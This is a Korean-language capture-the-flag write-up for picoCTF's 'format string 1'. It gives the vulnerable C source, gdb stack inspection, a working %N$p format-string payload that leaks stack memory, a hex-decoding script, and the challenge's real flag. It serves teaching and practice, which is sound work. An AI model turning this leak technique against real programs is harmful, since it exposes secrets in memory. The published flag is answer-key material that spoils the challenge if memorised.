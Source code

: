 # [format string 1](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&originalEvent=73&page=1)
<br />

- [Description](#description)
- [Exploitation](#exploitation)
- [FLAG](#flag)
<br />

# Description
> Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!
<br />

**Source Code:**
```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}

```
<br />

# Exploitation
```bash
$ cat secret-menu-item-1.txt
BBBBBBBB
$ cat flag.txt
pico{this_is_flag}
$ cat secret-menu-item-2.txt
AAAAAAAA
```
위 텍스트 파일 3개를 새로 생성한 후, gdb로 분석하겠습니다.

```yaml
pwndbg> b *main+275
Breakpoint 1 at 0x401309
pwndbg> r
...
Give me your order and I'll read it back to you:
CCCCCCCC
```
`main+275`에 `break` 후 `r`을 하빈다. 입력 값은 `CCCCCCCC`이고, 실행 직후 스택을 확인 해보겠습니다.
```yaml
pwndbg> x/30gx $rsp
0x7fffffffdb60: 0x4141414141414141      0x00007fffffff000a
0x7fffffffdb70: 0x00007fffffffdbb4      0x00007ffff7dcd600
0x7fffffffdb80: 0x00007ffff7fbf6c0      0x0000000000000003
0x7fffffffdb90: 0x00007fff00000000      0x00007ffff7ffe6b0
0x7fffffffdba0: 0x6968747b6f636970      0x616c665f73695f73
0x7fffffffdbb0: 0x00000000000a7d67      0x0000000000000000
0x7fffffffdbc0: 0x0000000000000000      0x00007fffffffdd50
0x7fffffffdbd0: 0x00007ffff7ffe6b0      0x00007ffff7ff287a
0x7fffffffdbe0: 0x4242424242424242      0x00007fffffff000a
0x7fffffffdbf0: 0x000000003de00ec7      0x00007ffff7fd111c
0x7fffffffdc00: 0x0000000000000001      0x00007fffffffdd50
0x7fffffffdc10: 0x0000000000000000      0x0000000000000000
0x7fffffffdc20: 0x4343434343434343      0x00007ffff7ffe300
0x7fffffffdc30: 0x00007ffff7ffe310      0x00007ffff7dd6cd8
0x7fffffffdc40: 0x00007fffffffdc90      0x00007ffff7ffe6b0
```
위에서부터 `0x7fffffffdb60`은 secret1, `0x7fffffffdba0`은 flag, `0x7fffffffdbe0`은 secret2 마지막으로 `0x7fffffffdc20`은 buf 입니다. 따라서 포맷스트링 인자 기준 flag의 오프셋은 14 입니다.
> [!NOTE]
포맷스트링 인자는 출력될 때, `rsi`, `rcx`, `rdx`, `r8`, `r9`, `rsp`, `rsp+8`, `rsp+0x10`, ... 순으로 출력이 됩니다. 따라서 flag의 오프셋은 14인 것입니다.

```bash
$ ./format-string-1
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p
Here's your order: 0x6968747b6f636970|0x616c665f73695f73|0xa7d67
Bye!
```
출력된 결과를 파이썬 자동화를 통해 아스키로 바꿔보겠습니다.

```python
$ cat test.py
data = "0x6968747b6f636970|0x616c665f73695f73|0xa7d67"
data = data.split("|")

res = ""
for p in data:
    if p.startswith("0x"):
        hex_str = p[2:]
        if len(hex_str) % 2 != 0:
            hex_str = "0" + hex_str
        ascii_str = bytes.fromhex(hex_str)[::-1].decode("latin1", errors="ignore")
        res += ascii_str

print(res)
```
```bash
$ python3 test.py
pico{this_is_flag}
```

<br />

# FLAG
```bash
$ nc mimas.picoctf.net 63454
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p|%17$p|%18$p
Here's your order: 0x7b4654436f636970|0x355f31346d316e34|0x3478345f33317937|0x34365f673431665f|0x7d363131373732
Bye!
```
```bash
$ python3 test.py
picoCTF{4n1m41_57y13_4x4_f14g_64277116}
```
